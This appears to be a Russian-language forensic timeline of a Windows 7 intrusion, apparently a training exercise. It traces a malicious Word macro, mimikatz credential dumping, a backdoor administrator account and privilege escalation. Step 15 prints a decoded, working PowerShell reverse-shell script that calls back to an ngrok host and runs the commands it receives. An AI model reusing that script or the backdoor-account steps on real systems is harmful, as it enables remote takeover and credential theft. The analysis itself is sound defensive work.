---
1) - Время : `2021-07-02 05:23:38.727`
   - Пользователь: `shift-user` на машине `win7-shift-wm`
   - Запуск Firefox
---
2) - Время : `2021-07-02 05:23:42.163`
   - Пользователь: `shift-user` на машине `win7-shift-wm`
   - Скачал `Заказ от клиента.7z`, затем разархивировал с помощью `7-Zip`
   
   
---
3) - Время: `2021-07-02 05:24:00.483`
   - Пользователь: `shift-user` на машине `win7-shift-wm`
   - Открыл `Заказ от клиента.doc` с помощью `Microsoft Office 2013`
   
---
4) - Время: `2021-07-02 05:24:08.652`
   - Пользователь: `shift-user` на машине `win7-shift-wm`
   - Открыл `Заказ от клиента.doc` с помощью `Microsoft Office 2013`
   - Запустился макрос, который загрузил `\\172.16.64.8\pALCk\update.dll,0` в `rundll32.exe`
   
   - Информация, которую мы нашли про `rundll32.exe`: 
   
   ```
        Поскольку нет возможности напрямую запустить файл DLL, приложение rundll32.exe просто используется для запуска функций, хранящихся в общих файлах .dll. Этот исполняемый файл является действующей частью Windows и обычно не представляет угрозы.

        Примечание: действующий процесс обычно находится в \Windows\System32\rundll32.exe, но иногда шпионское ПО использует то же имя файла и запускается из другого каталога, чтобы замаскироваться. 
   ```
   Наше предположение, что после того, как `update.dll` загрузили в `rundll32.exe` (ВПО), `rundll32.exe` расценивалось Windows7 как системное и получило права администратора 
---
5) - Время: `2021-07-02 05:26:40.817`
   - Пользователь: `shift-user` на машине `win7-shift-wm`
   - Была проверка на юзернейм `whoami`
   
---
6) - Время: `2021-07-02 05:26:42.886`
   - Пользователь: `shift-user` на машине `win7-shift-wm`
   - Запуск powershell-скрипта
   
---
7) - Время: `2021-07-02 05:26:43.174` - `2021-07-02 05:26:44.056`
   - Пользователь: `shift-user` на машине `win7-shift-wm`
   - Смена уровня безопасности (`IntegrityLevel: Medium` в 43 секунды и `IntegrityLevel: High` в 44)
   
   
   - `shift-user` получает админ-доступ
---   
8) - Время: `2021-07-02 05:41:26.004`
   - Пользователь: `shift-user` на машине `win7-shift-wm`
   - Запуск `Schtasks.exe`
   ```
   Позволяет администратору создавать, удалять, запрашивать, изменять, запускать и завершать запланированные задачи на локальном или удаленном компьютере. При запуске Schtasks.exe без аргументов отображается состояние и время следующего выполнения для каждой зарегистрированной задачи.
   ```
   
---   
9) - Время: `2021-07-02 05:43:31.488`
   - Пользователь: `shift-user` на машине `win7-shift-wm`
   - Запуск `mimikatz.exe`
   ```
   Программа mimikatz хорошо известна за возможность извлекать пароли в виде простого текста, хеши, ПИН коды и билеты kerberos из памяти. mimikatz также может выполнять pass-the-hash, pass-the-ticket или строить Golden тикеты.

   mimikatz поставляется в двух версиях: x64 и Win32, в зависимости от версии вашей Windows (32/64 бита).
   ```
   
---   
10) - Время: `2021-07-02 05:55:55.412`
    - Пользователь: `shift-user` на машине `win7-shift-wm`
    - Добавление юзера `WinDefender` с паролем `qwerty123`
    
    - Затем добавление его в группу администраторов (Время `2021-07-02 05:57:48.131`)
    
    Не знаю почему, но у нас полетела кодировка и если определить кодировку слова между `localgroup` и `WinDefender`. Его кодировка Windows-1251. Можно воспользоваться этим сервисом: `https://2cyr.com/decode/?lang=en`. И при переводе появится слово `administrators`:
     ```
     Команда net localgroup используется для управления локальными группами пользователей на компьютере. С помощью этой команды администраторы могут добавлять локальных пользователей / пользователей домена в группы, удалять пользователей из групп, создавать новые группы и удалять существующие группы.
     ```
---   
11) - Время: `2021-07-02 06:04:19.417`
    - Пользователь: `shift-user` на машине `win7-shift-wm`
    - Добавление `WinDefender` в группу `Пользователи удаленного рабочего стола`
    Опять проблема с кодировкой: если определить кодировку слова между `localgroup` и `WinDefender`. Его кодировка Windows-1251. Можно воспользоваться этим сервисом: `https://2cyr.com/decode/?lang=en`. И при переводе появится фраза `Пользователи удаленного рабочего стола`:
    

    - Были ещё запросы на добавление `WinDefender` в администраторы и Пользователей удалённого рабочего стола до `2021-07-02 06:14:33.651`
---
12) - Время: `2021-07-02 06:15:17.229`
    - Пользователь: `shift-user` на машине `win7-shift-wm`
    - Активация `WinDefender` как админа `net  user WinDefender /active:yes`:
    
---
13) - Время: `2021-07-02 06:18:22.057`
    - Пользователь: `shift-user` на машине `win7-shift-wm`
    - Дамп `LSASS` через `mimikatz`:
    
---
14) - Время: `2021-07-02 06:21:19.932`
    - Пользователь: `shift-user` на машине `win7-shift-wm`
    - Авторизуется под `WinDefender`:
    
---
15) - Время: `2021-07-02 06:21:23.823`
    - Пользователь: `WinDefender` на машине `win7-shift-wm`
    - `Reverse-shell`:
    
    При декодировании base16 - powershell-скрипт:
    ```shell
    $client = New-object System.Net.Sockets.TCPClient("0.tcp.ngrok.io", 11225);
    $stream = $client.GetStream();
    $greeting = "PS" + (pwd).Path + "> ";
    $sendbyte = ([text.encoding]::ASCII).GetBytes($greeting);
    $stream.Write($sendbyte,0,$sendbyte.Length);
    $stream.Flush();

    [byte[]]$bytes = 0..255|%{0};

    while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0) {
          $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
          $sendback = (iex $data 2>&1 | Out-String );
          $sendback2  = $sendback + "PS " + (pwd).Path + "> ";
          $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);
          $stream.Flush()
         };
    $client.Close();
    ```
---
16) - Время: `2021-07-02 06:23:40.109`
    - Пользователь: `WinDefender` на машине `win7-shift-wm`
    - Была проверка на юзернейм `whoami` с выводом прав юзера: 
    ```
    /priv - Displays the security privileges of the current user.
    ```
    
---
17) - Время: `2021-07-02 06:23:40.109`
    - Пользователь: `WinDefender` на машине `win7-shift-wm`
    - Авторизация под `NT AUTHORITY\система` с правами системы: 
    
---
